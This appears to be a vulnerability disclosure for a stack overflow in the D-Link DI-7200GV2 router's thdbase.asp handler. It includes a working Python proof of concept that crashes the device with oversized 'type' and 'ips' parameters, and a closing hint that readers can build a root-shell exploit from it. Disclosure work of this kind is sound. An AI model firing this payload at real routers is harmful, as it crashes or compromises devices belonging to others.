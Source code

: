 # Affected Version
D-Link device DI-7200GV2 v21.04.09E1
# Vulnerability Description
D-Link device DI-7200GV2 v21.04.09E1 was discovered to contain a stack overflow via parameters type and ips in the thdbase.asp function.

# Firmware download address
Manufacturer's address: https://www.dlink.com/  
Firmware download address: http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-7000G+V2%e7%b3%bb%e5%88%97

# Vulnerability Details
First, set the nvram values of fbr_type and fbr_ips in the jhttpd binary at function sub_45B32C() via thdbase.asp.
![Alt text](1.png) 
Then, the function thdbase_data() retrives the values of 'fbr_type' and 'fbr_ip' from nvram.Finally,the value of 'fbr_type' and 'fbr_ip' from nvram are concatenated to the sprintf function, which leads to a buffer overflow vulnerability.
![Alt text](2.png)

# Recurring vulnerabilities and POC
First, we boot the image via FirmAE.
![Alt text](3.png)
Then,we login in to 192.168.0.1.
![Alt text](4.png) 
Then we send the following poc:
<pre>
import requests
from requests import exceptions
url = "http://192.168.0.1/thdbase.asp"

params = {
    "type": "a"*0x14000,
    "ips": "a"*0x1400
}

headers = {
    "Host": "192.168.0.1",
    "Upgrade-Insecure-Requests": "1",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Accept-Encoding": "gzip, deflate",
    "Accept-Language": "en-US,en;q=0.9",
    "Connection": "close"
}

response = requests.get(url, params=params, headers=headers)
print(response)
</pre>

![Alt text](5.png)

And you can write your own exp to get the root shell.